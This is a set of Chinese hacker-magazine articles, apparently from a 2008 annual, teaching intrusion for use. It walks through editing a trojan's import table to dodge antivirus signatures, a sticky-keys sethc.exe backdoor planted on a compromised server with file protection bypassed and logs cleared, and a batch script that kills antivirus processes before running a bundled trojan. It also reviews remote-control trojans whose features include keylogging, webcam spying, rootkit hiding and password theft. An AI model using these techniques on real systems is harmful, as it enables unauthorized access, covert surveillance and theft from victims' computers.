上期的杂志中刊登了关于输出表免杀的文章，结果有不少小菜在 QQ 上问我，输入表该怎么免杀？所以本篇文章我再来和大家谈一下输入表，让大家简单的了解一下输入表，还有就是要学会输入表特征的免杀。我们使用到的工具有 C32ASM、LordPE、偏移量转换器 OC，木马就使用我最喜欢的黑洞为例，我使用的版本为 1.96（这个版本的服务端输入表还没有被查杀，我只是以它为例来进行介绍）。

首先使用黑洞配置一个服务端程序，使用 LordPE 载入我们生成的 EXE 文件，按图 1 中所标示出的 1、2、3 步骤来进行操作，大家看到的就是这个 EXE 文件输入表的信息了。


图1

使用 C32ASM 载入文件，PE 头（就是 ANSI 字符处显示 PE 开始的地方）的文件偏移加上 80 得出的文件偏移处十六进制的 4 字节就指向输入表的开始地址了。

PE 头的文件偏移为 00000100，十六进制中加 80 就是 00000180，到这个地址来看看。4 字节十六进制是 00 40 05 00，倒过来就是 00054000，这就是输入表开始位置的相对虚拟地址（就是我们常说的 RVA）。有朋友和我说在看了输出表的那篇文章后，感觉我给出的地址算法有点复杂，难道没有简单一点的方法来计算各个函数的名称和文件偏移地址吗？其实是有的，不过我上次忘记说了，本文我就补充一下，大家注意听。首先记住一个公式：内存地址=RVA 基地址+RVA。我们现在来算出 00054000 的内存地址，RVA 基地址的值可以在 LordPE 里看到，就是我图 1 中画框的地方。

使用 Windows 自带的计算器十六进制相加后得 454000（我省略了 00，下同），使用 OC 载入 EXE 文件，在内存地址里输入 454000，点第二个按钮就会转换出文件偏移了，是 04ec00。再回到 C32ASM 中按 Ctrl+g，在弹出的对话框中输入地址 04ec00 后点确定，来到输入表的地方，如图 2。从这里开始的四字节是第一个 Thunk 的备份，接下来的八字节 00 是 TimeDateStamp 32 位的时间标志，之后的四字节 B8 47 05 00 是 Dll 名称的 RVA，转换为文件偏移就是 04f3b8。我们到这里看一下，正好是 LordPE 里显示的第一个 Dll 文件名 kernel32.dll。接着来分析，之后的四字节 44 42 05 00 是第一个 Thunk 指向第一个 Dll 的函数地址。这 20 个字节就属于第一个 Dll 名称范畴。下面的四字节是第二个 Thunk 的备份，之后的 Dll 和第一个 Dll 一样，每 20 字节依次类推，这里就不多说了。去 LordPE 里数一数，一共 28 个 DLL 名称，以 20 字节为单位向下数 28 个，就来到了文件偏移 04ee30 处，如图 3。又有一堆的 00，这是 ForwarderChain 输入表的 32 位索引。我上面所说的这些，除了 Dll 名的 RVA 朋友们必须记住外，其它的都没什么用，就是让大家了解一下，认识一下 PE 文件的内容。从这里再向下就比较重要了，是函数名称的指向地址、函数的地址、Dll 的名称和函数名称了。文件偏移 04ee44 处开始就是各个 Dll 的函数名称的 RVA 了。第一个四字节为 0547c6，转换成文件偏移后就是 04F3C6。在 C32ASM 里到 04F3C6 看一下，如图 4（叉子：咦？这个文件偏移不应该就是第一个 Dll 的第一个函数名吗，怎么是 00？）。其实这里的两字节 00 是用来做函数名称提示符的，两字节之后不就是函数名称了嘛。

现在开始进行免杀，假定杀毒软件的特征码是文件偏移 04f3d4 处，也就是第一个函数名称的“a”处，如果我们按照平时免杀那样把 a 换为大写的 A，保存后运行文件一定会出错，提示无法定位文件输入表什么的。我们先将这个函数名称选中复制下来，然后再在选中的函数名称上点右键，选择“填充”，使用 00 把它给填充了。这样特征码处就变为空了，一定免杀了。再向下找个空地方（最好是向下找，上面的 00 处不是不能改，只是改了也会出错），我找的是文件偏移 050b42 处，选中和函数名称相同长度的地方，将函数名称复制进去。现在还没有完，还要改函数名称的指向 RVA。计算出文件偏移 050b40 的 RVA 为 055F40，前面的两字节 00 别忘了是函数名称的提示符。来到函数名称对应的 RVA 指向处，也就是文件偏移 04ee44 处，写入十六进制的 40 5F 05 00。全部改完后如图 5，图 6，图 7 所示，最后保存。使用 LordPE 载入，一切都正常显示，运行也不出错了，大家可以把图 8 和前边的图 2 进行对比一下。

可以说输入表和输出表的免杀还是有一些相似的地方的，不过我个人认为输入表比较好免杀一些，免杀后出错的几率也比较低。最后再给大家一个问题，我文中只假设特征码是出现在函数的名称上，要是出现在 Dll 名称上那该怎么改呢？这个问题就留给叉子们自己去解决吧！（本文所涉及到的 C32ASM，LordPE，偏移量转换器 OC 已收录到光盘中）


```
0004F380: 04 5E 05 00 1A 5E 05 00 20 5E 05 00 3C 5E 05 00
0004F390: 4E 5E 05 00 00 00 00 00 70 5E 05 00 00 00 00 00
0004F3A0: 8C 5E 05 00 00 00 00 98 5E 05 00 C2 5E 05 00
0004F3B0: D2 5E 05 00 00 00 00 00 68 65 72 6E 65 6C 33 32
0004F3C0: 2E 64 6C 6C 00 00 00 00 00 00 00 00 00 00 00 00
0004F3D0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004F3E0: 4C 65 61 76 65 43 72 69 74 69 63 61 6C 53 65 63
0004F3F0: 74 69 6F 6E 00 00 00 00 45 6E 74 65 72 43 72 69
0004F400: 74 69 63 61 6C 53 65 63 74 69 6F 6E 00 00 00 00
0004F410: 49 6E 69 74 69 61 6C 69 7A 65 43 72 69 74 69 63
0004F420: 61 6C 53 65 63 74 69 6F 6E 00 00 00 00 56 69 72
```


```
0005A6B0: 00 00 00 43 6E 74 69 6E 69 74 69 61 6C 69 7A 65
0005A6C0: 00 00 00 43 6E 74 69 6E 69 74 69 61 6C 69 7A 65
0005A6D0: 00 00 00 43 72 65 61 74 65 45 76 65 6E 74 00 00
0005A6E0: 61 6E 63 65 00 00 00 00 00 00 00 00 00 00 00 00
0005A6F0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005A700: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005A710: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005A720: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005A730: 00 00 00 44 65 6C 65 74 65 43 72 69 74 69 63 61
0005A740: 6C 53 65 63 74 69 6F 6E 00 00 00 00 00 00 00 00
0005A750: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005A760: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005A770: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005A780: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```


```
0004EE00: 64 5E 05 00 98 47 05 00 00 00 00 00 00 00 00 00
0004EE10: 00 00 00 00 00 00 80 5E 05 00 00 00 47 05 00
0004EE20: 00 00 00 00 00 00 00 00 00 46 5E 05 00 00 47 05 00
0004EE30: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004EE40: 00 00 00 00 00 40 5F 05 00 DE 47 05 00 F6 47 05 00
0004EE50: 0E 48 05 00 20 48 05 00 3B 48 05 00 4B 48 05 00
0004EE60: 54 48 05 00 62 48 05 00 72 48 05 00 8C 48 05 00
0004EE70: 90 48 05 00 00 00 48 05 00 C8 48 05 00 E0 48 05 00
0004EE80: F0 48 05 00 06 49 05 00 1C 49 05 00 28 49 05 00
```


| DllName | OriginalFirstThunk | TimeDateStamp | ForwardedChain | Name | FirstThunk |
|---|---|---|---|---|---|
| kernel32.dll | 00000000 | 00000000 | 00000000 | 00054A88 | 00054244 |
| user32.dll | 00000000 | 00000000 | 00000000 | 00054A88 | 00054300 |
| advapi32.dll | 00000000 | 00000000 | 00000000 | 00054B34 | 00054374 |
| wsock32.dll | 00000000 | 00000000 | 00000000 | 00054B40 | 00054384 |
| kernel32.dll | 00000000 | 00000000 | 00000000 | 00054B4C | 00054394 |

| ThunkRVA | ThunkOffset | ThunkValue | Hint | ApiName |
|---|---|---|---|---|
| 0005423C | 0004E3D4 | 00054B00 |  | LoadLibraryA |
| 00054248 | 0004E3E0 | 00054B0A |  | GetProcAddress |
| 0005425C | 0004E3EC | 00054AD8 |  | LeaveCriticalSection |
| 00054250 | 0004E3F8 | 00054AD0 |  | EnterCriticalSection |
| 00054264 | 0004E404 | 00054AC8 |  | InitializeCriticalSection |
| 00054274 | 0004E410 | 00054ABC |  | VirtualFree |
| 00054280 | 0004E41C | 00054AAC |  | GetProcessHeap |
| 0005429C | 0004E428 | 00054A94 |  | LocalFree |
| 000542A0 | 0004E434 | 00054A84 |  | LocalAlloc |
| 000542B0 | 0004E440 | 00054A78 |  | DeleteCriticalSection |

Number Of Thunks: 22A / 462 (FirstThunk chain)
☐ (?)最终察看 FirstThunk


大多数用户都习惯每天登录一些固定的网站，不过有时候可能很久也看不到网页及时更新的“New!”字样标题，那一定是网站的站长太懒了。作为普通的登录者，我们是否可以探查一下网站最后更新的时间呢？

解决的方法非常简单，只需一条命令就能搞定。首先使用浏览器打开待测试的网页，一切打开正常后再到地址栏清除所有内容后输入 javascript:alert(document.lastModified)，回车后你就会发现浏览器蹦出个小窗口（如下图），上面清清楚楚的写明了本网站最后更新的时间为“2008年3月28日上午11时05分57秒”，是不是很方便呢？


### 和我一起来试用小锋远程控制

这段时间国内外都没有什么新的木马和后门出现，因此这些木马爱好者也没有了新的选择，前两天在暗组论坛溜达，发现了一款名为“小锋远程控制”的软件，正好这几天闲得无聊，是骡子是马拉出来溜溜，今天我们就看看这款远控程序是否如它的名称那样锋利。

#### 一、配置服务端程序

下载并运行小锋远控的客户端程序，可以看到它和其它一些常用的远控程序在界面的布置上都差不多，这样用户操作起来也会更加的方便，如图 1。点击工具栏中的“配置服务端”按钮，在弹出的配置窗口中分为“上线设置”和“安装选项”两大选项。

首先在“上线设置”中设置服务端连接的地址信息，小锋远控可以采用网页地址、域名解析、静态 IP 地址等多种方法进行连接。接着设置服务端的上线端口和


连接密码，然后在“进程注入”中设置插入的进程选项。默认除了可以插入到 IE 浏览器进程外，还可以插入到一个名为 wupdmgre.exe 的进程中。经过网络搜索得知，wupdmgre.exe 是 Windows Update Manager 的缩写，也就是系统的自动升级程序。

再来点击“安装选项”，首先在“安装路径”中设置服务端的安装目录，其中包括 Windows、System32 和程序目录等。接着设置服务端 EXE 文件和 Dll 文件的名称，由于服务端是利用系统服务启动的，因此需要自定义服务名称、显示名称和描述信息等。最后根据自己的实际情况选择加壳压缩和自动删除选项，如图 2。配置完成后，点击“生成服务端”按钮，就可以生成配置完成的服务端文件了。

#### 二、服务端控制

直接在本地电脑中运行服务端，很快我们就可以看到服务端连接成功了。在服务端列表中可以看到上线服务端的基本信息，包括 IP 地址、网络地址、远程系统、所在区域等。在列表中选择上线的服务端信息，点击鼠标右键或工具栏就可以看到主要的控制命令。如果服务端设置了连接密码的话，那么在进行控制以前要填写好密码才行，如图 3。

点击工具栏中的“远程屏幕”命令，就可以用来对远程桌面进行实时的监控了，从弹出的窗口可以看出，小锋远控默认的查看效果并不是太好，如果选中工具栏中的“真彩色”选项，这时画面效果将得到大幅的改善。在进行屏幕查看的时候，可以通过“保存画面”命令，将捕获的图片信息进行自动保存。可以说小锋远控的屏幕控制速度还是不错的，由于是在本地进行的测试，所以这里就不给各位进行截图了。

接着点击窗口中的“文件管理”命令，这样就能方便的在窗口中进行远程管理了。在“盘符”下拉菜单中选择要查看的盘符，然后在窗口下方就可以看到该盘符中的文件信息。通过右键菜单中的控制命令，可以进行刷新、下载文件、上传文件、删除文件等操作，如图 4。无论是上传文件还是下载文件，小锋远控都支持断点续传。


点击“进程”按钮可以查看远程系统中的进程，其中也包括了被服务端进行线程插入的 IE 进程，由此可以看出，小锋远控的服务端进程并没有进行隐藏。通过右键中的“终止进程”按钮，可以将不喜欢的进程信息结束掉。另外通过右键命令还可以获取更多的信息，比如内存信息、内存路径、模块内容、线程数等等，如图 5。点击“服务”按钮，然后点击鼠标右键选择“刷新”，就可以获得远程系统中的服务信息。通过右键菜单中的命令，可以对选择的服务进行启动、停止、删除以及新建等操作。比如要新建服务，在弹出的窗口中设置服务名称、显示名称和文件路径后，就可以完成新的系统服务的创建了。

除此之外，注册表管理器也是非常重要的。点击工具栏中的“注册表”按钮，在模拟的注册表编辑窗口中就可以对远程注册表信息进行操作。依次选择需要查看的注册表主键，通过鼠标右键中的命令就可以删除、编辑已有的信息，或添加其它需要加入的信息内容，如图 6。另外，超级终端也是远控程序非常主要的一个控制命令。点击“超级终端”按钮，服务端程序就会主动调用远程系统的命令提示符来进行使用。在命令行中输入相应的控制命令后回车，在窗口中就可以看到返回的信息内容了，如图 7。在此也可以看到，服务端并没有对自己的通讯端口进行隐藏。

“键盘记录”功能主要用于记录用户的键盘操作，在弹出的窗口中选择“开始记录”按钮，程序就开始进行记录操作了。我在测试过程中发现，本来运行正常的系统突然变得很缓慢，看来这个功能还需要进一步的改进才行。虽然最终成功的记录下了输入的英文信息，但是在测试中文信息时却没有记录成功，如图 8。当成功获取到键盘消息后，通过鼠标可以将其复制下来进行保存。


图7


图8

以后的版本中将会加入插件功能，这样就可以让程序功能得到较大的扩展了。但目前程序还处于测试阶段，因此每一个功能都需要不断的增强和改进，并且进一步完善程序的稳定性和隐蔽性。

（本文所涉及到的小锋远程控制程序已收录到光盘中）

#### 三、小结

小锋远程控的基本功能制作的还算可以，据了解小锋远程控在以

### 让shift后门穿透系统文件保护

关于 shift 后门大家应该都知道吧，其实这个后门只是一个 bug 罢了，就是在登录界面连续按下 5 下 shift 键会以系统权限启动 system32 目录下的 sethc.exe，所以我们只要对 sethc.exe 做下手脚，就可以实现一个既隐蔽又不会被查杀的后门了。比如，把 sethc.exe 替换成 cmd.exe 或 explorer.exe，这样我们就可以启动 CMD 命令提示符或系统桌面程序了。当然，这样的缺点就是任何人都可以使用我们的后门。记得 shift 后门刚出道时就有人拿端口扫描器狂扫 3389，连接上之后狂摁 shift 键（这法子我倒是没有试过），据说一小时之内就搞定了四台服务器……


图1

为了防止这样的情况，小菜们也想出了对策，就是给 shift 后门添加上密码，方法也是多种多样的，有人使用批处理，有人使用 vbs，不过出于个人的懒惰，我的方法是使用 vb6.0 编写了一个比 hello world 高级不了多少的程序，界面很难看（能用就行），如图 1。代码只有一句：if text1.text="password" then shell "c:\windows\explorer.exe" else end，意思就是如果输入的文本是“password”的话，程序就会运行 explorer.exe 程序。

这天又搞到一台 3389 主机，添加了一个用户然后连接上去。现在想加个隐藏帐户可不是那么简单的了，有的管理员甚至把查看影子用户的程序都添加到了启动项里，所以说添加用户并不是长久之计。于是我拎着 shift 后门就冲了上去，直接将后门程序改名为 sethc.exe，覆盖到 system32 目录下。正准备进入 shift 后门清理一下战场，却发现我的 shift 后门根本没有反应，弹出来的还是原来的粘滞键设置。我非常郁闷的再一次进入了服务器，发现 system32 下的 sethc.exe 已经变回去了，可是我刚刚明明把它覆盖了啊。突然想到，Windows 系统有一个功能叫做系统文件保护，它可以把被修改的系统文件还原。我上网查了一下相关的资料，得知可以通过组策略禁用它。在服务器里按 win 键+R，运行 gpedit.msc，找到“计算机配置”－“管理模板”－“系统”－“windows 文件保护”，在右边选择“设置 windows 文件保护扫描”，更改为“已禁用”，如图 2。心想这下没问题了，再把 sethc.exe 覆盖成后门，等了大搞十秒钟，发现那个文件又被改回去了，欲哭无泪啊……


图2

我仔细的想了一下，光是在组策略里禁用可能不会马上生效，我又到网上搜索了一下有关系统文件保护的资料，发现系统文件保护和 Windows 系统服务中的“Cryptographic Services”有关系，这个服务可以识别并更新系统文件，如图 3。赶紧把这个服务关掉，然后把 sethc.exe 再次覆盖，这回终于成功了。我们再把“Cryptographic Services”服务开启（免得被管理员发现），注销系统后再使用 shift 后门登录系统把刚才添加的用户删掉，清除下日志，大功告成！在实际操作过程中遇到了一个问题，按理说 Windows 系统文件保护应该是从 system32 下的 dllcache 文件夹里拷出文件，但在那台服务器里却没有 dllcache 这个文件夹，不知道为什么，还请高手指教。

### 为木马入侵开路

痛并快乐着

我们都知道，病毒和木马最重要的区别就是病毒会破坏系统中的文件，而木马则主要是为了远程控制。可是现在的病毒已经从破坏系统转到了破坏杀毒软件上，从 AV 终结者、机器狗等病毒就可以看出这种转变。那么我们这些小黑客能做到这一点吗？我相信一款名为 Abetter 的软件可以帮助我们实现。

双击运行 Abetter 程序，这款程序本来是德文界面的，好在有网友简单的汉化。首先在“蠕动者名称”和“另存为”选项中设置生成文件的名称和存放地址，由于这个文件后期还需要进行捆绑，因此这里按照默认的设置即可。接着勾选上“杀行动”中的所有选项，其中包括了结束系统安全设置以及常见查杀毒软件的内容。由于这是一款国外的黑客软件，因此杀毒软件也全是国外的，这不能说不是一种遗憾。在“额外的命令”中输入其它的命令，比如我们输入“ping 127.0.0.1”，这样就可以延迟时间为木马运行做准备了。再在右上方的“特别功能”中选择“主动传播”，这样生成的文件就可以进行主动传播了。最后在“运行”中选中“标准”，然后设置需要运行的木马名称，当然还可以设置一个用于迷惑用户的其它文件，比如图片文件、音频文件等。设置完成后，点击“生成”按钮即可，如图 1。

|  |  |  |  |
| --- | --- | --- | --- |
| 启动者0.94 |  |  | 功能 |
| 蠕动者名称 | cxh7788521 |  | 主动传播 |
| 另存为 | C:\ |  | 被动传播 |
| Programme: | NOT | 自定义图标 | Action |
| 行动 |  |  |  |
| 结束防火墙 |  |  |  |
| 关闭杀毒软件 |  |  |  |
| 允许匿名登录 |  |  |  |
| 允许 |  |  |  |
| 额外的命令 | ping 127.0.0.1 |  | 标准 |
| 你要执行的黑客 | Server | exe |  |
|  | Audiofile.mp3 |  |  |
|  | Serverfile.scr |  |  |
|  | 生成 | 88 |  |

文件创建成功后我们会发现，生成的文件竟然是一个批处理文件，这样也便于我们进行修改。使用记事本打开这个批处理文件，可以看到文件主要是利用结束杀毒软件的服务或进程来达到保护木马入侵的目的。因此我们可以在代码中针对国产的杀毒软件进行一些代码的添加，比如“tskill Ravmond.exe”就可以结束瑞星的进程。然后多复制几行“ping 127.0.0.1”代码，从而保证结束杀毒软件进程的时间充裕，如图 2。

```bat
@echo off
Rem 本程序由 蠕动者官方论坛 出品
Rem http://www.cxh7788521.cn
Rem 杀毒软件结束进程
@echo off
taskkill /f /im Ravmond.exe
taskkill /f /im ccSvcHst.exe
taskkill /f /im kasysvc.exe
taskkill /f /im kxescore.exe
taskkill /f /im kxetray.exe
taskkill /f /im zhudongfangyu.exe
taskkill /f /im 360tray.exe
taskkill /f /im 360safe.exe
taskkill /f /im 360sd.exe
taskkill /f /im QQDoctor.exe
taskkill /f /im QQPCTray.exe
```

通过 WinRAR 将批处理文件和木马程序进行压缩，接着创建一个自解压文件，只需要在“解压后运行”中输入批处理文件的名称即可。最后运行“WinRAR 自解压完美免杀补丁”，点击“应用”按钮选择刚才创建的自解压文件，程序就会自动为其进行免杀补丁操作，如图 3。这样就可以避免用户对收到的自解压文件进行查杀而发现问题了。

（本文所涉及到的 Abetter、WinRAR 自解压完美免杀补丁已收录到光盘中）


### 炽天使4.0黑客X档案专版使用手记

炽天使是国内一款非常优秀的远程控制软件，它是国内首款基于插件式概念结构扩展的远程控制软件，可以过主动防御是它的一大亮点（炽天使能够过瑞星2008、江民，以及Nod32、麦咖啡、卡巴等国外几款著名的杀毒软件所谓的强大启发式病毒检测，隐蔽性很高，支持HTTP1.1协议。）它的内核驱动级工作方式可以实现服务、端口、文件的隐藏（冰刃无法查看炽天使的连接、进程还有服务），独创的Rootkit隐藏指定重要文件功能，强大而多样的插件可以方便的扩展炽天使的其它功能。

在以前的黑客X档案杂志上曾经有人介绍过炽天使的早期版本，似乎是3.0破解版，因为炽天使官方网站所提供的能够免费使用的只有试用版，但是试用版在功能上有一定的限制，没有限制的VIP版及高级VIP版则是需要收费才能使用的，而对于网上的那些破解版我们用着又不大放心。为了能够让叉子们用上既没有功能限制又不需要花钱的炽天使，在炽天使推出4.0版本之际，黑客X档案与炽天使官方（http://www.ctsssoft.com/）联合推出了炽天使4.0黑客X档案专版，下面我就带各位看看炽天使4.0黑客X档案专版都有什么新功能和特点！

#### 一、配置服务端

打开炽天使4.0黑客X档案专版，其界面如图1所示，我们可以看到非常醒目的“黑客X档案专版”字样。先来生成一个服务端，点击图标栏最左边的那个“生成服务”，就可以打开服务端生成窗口了。在“基本信息”中可以设置肉鸡上线后的注释，以方便管理和识别肉鸡，比如我填写的注释就是“黑客X档案投稿演示”。文件名称是服务端运行后释放出的文件的名字，我们可以随便起，再下面两个则是服务端运行后生成的服务的名称和描述，我们起的越像正常的服务越好，最后是设置上线口令，这可以保护我们的肉鸡（上线口令必须要设置，否则在生成服务端时会提示配置信息不完整），通过右边的“修改图标”按钮我们可以给要生成的服务端替换一个想要的图标，如图2。


切换到“连接设置”选项，在这里可以设置上线方式和上线端口，炽天使提供了动态域名上线和利用URL获取IP地址的上线方式，对于这两种几乎所有木马中都会提供的上线方式，相信经常看黑客X档案的朋友早就掌握了，具体使用哪一种上线方式就看自己的喜好了。我比较喜欢使用动态域名上线方式，炽天使除了上线地址外还提供了一个备用地址，这是很多远程控制软件中所没有的，感觉非常实用，可以保证在我们的上线地址不能使用时仍可以使用备用地址来上线，如图3。


打开“高级设置”，在这里可以设置木马注入的进程，炽天使提供了iexplore.exe、explorer.exe和svchost.exe这三个进程供选择，当然大家也可以直接输入要注入进程的名字。“CPU 心跳通知”和“第一次运行完后自删除”这两项可以勾选上，连接一般选择“TCP 直接连接”就可以，如图4。

最后来到“生成设置”，为了更好的隐藏和过主动防御，我们把“程序自保护（隐藏端口、服务、文件和过主动防御等功能）”勾选上，在“压缩设置”中可以选择是否对生成的服务端进行加壳压缩，为了方便以后制作免杀，建议选择“不使用压缩”。在“版本选择”中有基本版（无视频）、基本版（有视频）、迷你版（无插件）这三种版本供我们选择，我选择的是基本版（有视频），如图5。

全部设置完毕后，直接点“生成”按钮就可以生成一个无壳的服务端了（如果在“压缩设置”里选择了最小化压缩或者随机值压缩，控制端程序则必须存放在没有中文的目录下才行，否则将无法生成服务端）。

#### 二、软件的控制功能

生成的不加壳压缩的、有视频的基本版大小为171K，暂时还不被卡巴、瑞星所查杀，不过即使被查杀了也没什么大惊小怪的，毕竟杀毒软件公司也不是吃白饭的，倘若被查杀的话我们再进行免杀处理就可以了。点击图标栏中的“开始服务”按钮来监听上线端口，在本机运行刚才生成的服务端程序，立刻桌面右下角弹出了上线提示，再到炽天使的主界面看看，已经成功上线了，如图6。


其中“CPU心跳”显示的是被控制电脑的CPU利用率，这个名称起的比较有意思。下面我们就具体介绍一下炽天使的几大功能。先来看它的CMD功能，炽天使提供了两种运行cmd命令的模式，一种是以SYSTEM权限来运行命令，这也是很多远程控制软件都有的功能，还有一种就是以某个用户的权限来运行命令，选择CMD菜单下的“Run As”，输入用户名和密码就可以以该用户的权限来运行cmd命令了，如图7。


“文件管理”采用了类似Radmin的文件管理模式，查看、管理文件都非常方便；在传输文件时，炽天使还提供了速度限制功能，这可以避免因占用大量带宽而被发现，如图8。


接下来我重点介绍一下炽天使的“插件管理”功能，炽天使的所有功能都是基于插件的，也就是说每一个控制功能都有与之对应的插件。默认情况下炽天使已经安装了“进程管理”、“服务管理”、“系统信息”、“屏幕监控”、“注册表管理”、“视频语音”等六个内置的插件。目前为止，炽天使的插件一共有17个，除了内置的六个外都是可选的，选中想要安装的插件，然后点鼠标右键，选择“安装插件”，如图9，安装完成后选中该插件，点插件管理窗口中的“执行插件”按钮或是点鼠标右键，选择“执行插件”，就可以使用插件的功能了。


采用插件形式使得软件功能的扩展变得非常容易，想增加什么功能的话只需要增加相应的插件就行了。“网络扫描”插件支持内网扫描，方便进行内网渗透；“安装Winpcap”插件可以给目标电脑无界面安装Winpcap包，方便使用软件进行嗅探和ARP攻击；“登录密码（Gina）”插件可以获取管理员登录3389时的用户名和密码信息；“双开3389”插件可以给XP系统的电脑实现一键双开3389，如图10。


“键盘记录器”可以记录键盘输入的中英文信息，除了以上的这些插件外，“应用代理”、“缓存口令”、“端口映射”、“拨号密码”等插件的功能也非常实用的，限于篇幅就不一一介绍了。


## 牧马记

## 2008合订本下卷


“系统信息”可以查看电脑的配置和网络情况，显示是否有视频设备等。点“屏幕监控”按钮后就会弹出来设置窗口，可以对监视的画面质量进行选择，颜色越多，画面越好，当然占用的带宽也越多，我们还可以设置“自动保存画面”，如图12。


“注册表”管理提供了类似Windows系统的注册表管理界面，可以方便的对注册表项进行新建、删除、复制等操作，如图13。“视频语音”功能可以对远程电脑进行视频和语音的监控，并可以把视频直接保存为AVI文件，还可以直接和对方进行语音交流，如果对方正好是个漂亮MM，嘿嘿，那就有得玩了，如图14。


其实炽天使4.0黑客X档案专版还有很多丰富的功能，我们在上线主机上点右键，就可以看到更多的功能了，如图15。

其中“打开指定网页”、“上传并执行”、“断开连接”等绝大多数远程控制软件都具有的功能就不介绍了，我只介绍几个别的远程控制软件中很少具有的功能：“Rootkit隐藏”可以隐藏指定的文件，即使勾选了“文件夹选项”中的“显示所有文件和文件夹”也看不到；“修改配置”功能可以对上线密码、注入的进程等进行重新设置；“清空系统日志”功能非常实用，可以用来擦PP。

最后我再简单介绍一下炽天使4.0黑客X档案专版中所增加的功能和特点：

- 1、代理插件升级为2.0，修正了1.0中第二次连接时CPU 100%的bug
- 2、修改了文件管理的操作风格
- 3、修改了配置生成文件名太长时无法运行的bug
- 4、去除了vmware虚拟机限制
- 5、IP显示实现了内外网区分，一眼就可以看出电脑是属于内网还是外网的
- 6、增加了黑名单功能，可以限制一些电脑不上线
- 7、系统信息插件升级为2.0，增加了IP显示功能
- 8、增加了可以清除对方系统日志的功能
- 9、增加了复制和查看对方IP地址的功能
- 10、增加了断开连接功能
- 11、增加了FTP更新工具
- 12、增加了端口映射服务器工具（该工具是配合反向端口映射插件使用的）
- 13、增加了双击功能管理设置
- 14、增加了拨号口令插件，可以查看对方拨号连接的用户名和密码
- 15、增加了端口映射插件，这是4.0版新增的特色插件，支持正向反向，TCP和UDP协议，适合于把内网3389主机映射出来连接
- 16、增加了双开3389插件，这也是4.0版新增的特色插件，可以一键双开3389终端登录，并附带了启动3389、添加系统隐藏用户、克隆guest用户、删除隐藏系统用户、关闭系统防火墙等辅助功能

#### 三、小结

炽天使4.0黑客X档案专版采用了内核级驱动技术，可以躲过大多数杀毒软件的主动防御，隐蔽性很高，使用冰刃无法查看到炽天使服务端的服务，基于插件式的概念结构扩展可以方便的增加功能，有多个插件支持内网渗透和通讯加密，这使得炽天使成为了一款非常优秀的远程控制软件，当然它也是有缺点的，比如还不太稳定，卸载服务端后要等重启程序后才能从上线主机列表中消失等。希望软件作者在下一个版本中能够修复这些bug，使软件越来越好用。

（文章中涉及到的炽天使4.0黑客X档案专版已经收录在光盘中）

### 远程控制的新选择——DarkstRat2008

痛并快乐着

想要抓肉鸡就必须要有款好的木马程序，今天我就来介绍一款全新的木马程序DarkstRat2008，它在控制功能上可是有很多独到之处哦，我们还是赶紧来看看吧。

#### 一、配置服务端

首先运行DarkstRat2008的客户端程序，点击工具栏中的“生成服务端”按钮，在弹出的配置服务端窗口中进行必要的设置。在“基本选项”中设置反弹连接的地址、端口以及连接时间，由于木马默认使用的是80端口，因此很容易突破防火墙的拦截。在“高级选项”中主要设置木马的启动方式，包括了替换BITS服务和新建服务这两种。通过替换服务可以看出，作者借鉴了“创建SvcHost.exe调用的服务原理与实践”一文中的内容，使用的是和小榕前辈的BITS后门所类似的一个替换技术，随机自动启动并可以轻松穿透防火墙的拦截。点击“选择图标”按钮来对服务端程序的图标进行伪装，该木马可以从可执行文件中提取相关的图标，最后点击“生成”按钮就可以创建我们的服务端程序了，如图1。


图1

#### 二、服务端功能

服务端程序创建完毕后，就可以上传到远程电脑里运行了。我们点击客户端工具栏中的“开始监听”按钮，很快客户端程序就弹出了提示窗口，服务端连接成功了。在上线列表选中上线的主机，单击鼠标右键，就可以在菜单中看到所有的控制命令了，其最重要的控制命令都包括在“管理主机”中。

点击“控制中心”窗口中的“服务端信息”和“系统信息”，通过它们可以查看远程电脑中的服务端信息和系统配置信息，比如在“系统信息”里可以查看到操作系统的版本、CPU类型、内存信息、杀毒软件、防火墙等，尤其是其中的“检测辅助”功能还可以判断出服务端是运行在真实主机里还是运行在虚拟机里的，如图2。

再来看“进程”，在这里可以查看远程电脑中正在使用的进程，其中包括了隐藏的进程。选中某个进程点右键，选择“结束进程”，就可以结束该指定的进程了。为了保证系统资源得到合理的分配，Windows系统将进程分为了系统进程和用户进程两种，系统进程用来支持系统基本的运行环境，因此用户最好不要结束它们以免使系统崩溃。


打开“窗口”项，通过右键中的命令我们可以执行关闭、显示、隐藏等控制操作。除了上面的这些基本操作外，还包括了抖动窗口、转到进程和键盘发送这三个特殊命令，如图3。


图3

比如“抖动窗口”就模仿了QQ的窗口抖动效果，木马可以对指定的窗口进行抖动操作，不过前提是这个窗口是正常显示的。“转到进程”命令可以让选择的窗口和对应的进程进行快速的关联起来，而选择“键盘发送”命令后，在弹出的“发送键盘命令”窗口中就可以对窗口名称进行修改，同时也可以输入一段信息添加到窗口中，如图4。


图4

使用“注册表”项，我们可以在控制窗口中模拟出一个远程的注册表编辑器，首先通过下拉菜单选择想要查看的注册表主键，接着依次选择想要查看的注册表项以及键值，最后通过右键菜单中的刷新、修改、删除、重命名等命令对其进行修改，当然也可以通过新建命令来添加新的项和键值。


在“服务管理”中，我们可以查看远程电脑中的系统服务，通过右键菜单中的命令可以对系统服务进行刷新、启动、停止、删除等操作，另外我们还可以创建新的服务项，点击“新建”命令后就会在窗口下方看到一个新建服务的向导，按照提示一步步的进行操作就可以了，如图5。


